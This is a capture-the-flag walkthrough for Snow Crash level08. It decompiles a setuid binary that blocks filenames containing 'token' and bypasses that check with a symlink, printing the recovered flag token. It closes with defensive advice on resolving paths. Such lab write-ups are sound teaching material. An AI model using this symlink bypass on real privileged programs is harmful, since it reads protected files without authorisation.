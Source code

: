 ## Snow Crash - Level08 Walkthrough

### 📁 Files Found

Upon logging into `level08`, the home directory contains:

```bash
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

- The binary `level08` has the **setuid bit set**, meaning it runs with the privileges of user `flag08`.
- The file `token` contains the flag but is **only readable by `flag08`**.

---

### 🔍 Binary Analysis

Decompiling or reverse engineering the binary reveals the following logic:

```c
int main(int argc, char **argv) {
    if (argc == 1) {
        printf("%s [file to read]\n", argv[0]);
        exit(1);
    }

    if (strstr(argv[1], "token")) {
        printf("You may not access '%s'\n", argv[1]);
        exit(1);
    }

    int fd = open(argv[1], O_RDONLY);
    if (fd == -1) err(1, "Unable to open %s", argv[1]);

    char buf[1024];
    ssize_t n = read(fd, buf, 1024);
    if (n == -1) err(1, "Unable to read fd %d", fd);

    write(1, buf, n);
    return 0;
}
```

### ⚠️ Vulnerability

The binary **blocks any filename containing the substring `token`** using:

```c
if (strstr(argv[1], "token"))
```

However, it uses `open()` to read the file — and `open()` **follows symbolic links**. The program doesn't sanitize the actual file path after resolution.

---

### 🧨 Exploiting the Symlink

We can **bypass the substring check** by creating a symlink to the real `token` file without using the word `"token"` in the path:

```bash
ln -s /home/user/level08/token /tmp/mylink
```

Now we run the binary with the symlink as argument:

```bash
./level08 /tmp/mylink
```

### ✅ Result

```
quif5eloekouj29ke0vouxean
```

That's the token for `flag08`!

---

### 📚 Key Takeaways

- **strstr()** only checks if a string is part of the argument, not the resolved path.
- **open()** follows symlinks by default, allowing access to restricted files if checks are shallow.
- Always resolve and validate the actual file path (e.g., using `realpath()` or `readlink()`) when implementing file access controls.
